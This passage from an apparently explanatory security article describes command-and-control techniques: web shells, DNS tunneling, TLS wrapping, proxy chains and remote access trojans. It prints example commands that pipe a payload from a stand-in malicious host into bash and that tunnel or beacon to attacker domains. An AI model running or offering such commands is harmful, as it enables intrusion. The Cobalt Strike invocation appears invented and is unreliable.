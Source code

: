 Attackers use web shells, typically uploaded to a compromised web server, to maintain persistent access. Once a web shell is in place (e.g., in PHP or ASPX), it allows attackers to remotely execute commands like `curl` or `wget` to download additional malware or tools.

```
curl http://malicious-server.com/payload.sh | bash
```

**Scenario**: After exploiting a vulnerability in a website (like file upload vulnerability), an attacker uploads a PHP web shell. Through this shell, they can remotely execute commands to maintain access, escalate privileges, or download further malware.

#### **DNS Tunneling**

DNS tunneling is a technique where attackers use DNS requests to exfiltrate data or communicate with a C2 server. Tools like `iodine` are often used for this purpose.

```
iodine -f dns.malicious-domain.com
```

**Scenario**: A compromised machine within the network is configured to send DNS requests to the attacker’s C2 server. The traffic appears as legitimate DNS queries, which are often overlooked by security teams.

#### **Encrypted Channels (TLS/SSH)**

Attackers use encryption to hide communication between compromised devices and C2 servers, making detection challenging. Tools like `stunnel` are used to wrap malicious communications in TLS.

```
stunnel /etc/stunnel/stunnel.conf
```

**Scenario**: After gaining access to a network, an attacker sets up an encrypted tunnel using `stunnel` between the compromised host and their C2 server, allowing them to securely transmit stolen data or send additional commands without triggering alerts.

#### **Proxy Chains**

Attackers often use proxy chains to route their communications through multiple intermediate systems, making it harder to trace or block their C2 traffic. Tools like `Proxifier` or `proxychains` are used to implement this.

```
proxychains curl http://malicious-domain.com/payload.sh
```

**Scenario**: An attacker routes their communications through multiple compromised systems or proxies, masking their true location and making detection and response more difficult.

#### **Remote Access Trojans (RATs)**

RATs like Cobalt Strike allow attackers to fully control compromised machines via HTTP or HTTPS, executing commands remotely. RATs are used to maintain persistence, pivot to other systems, or escalate privileges.

```
./cobaltstrike --script launch_beacon http://malicious-c2.com
```
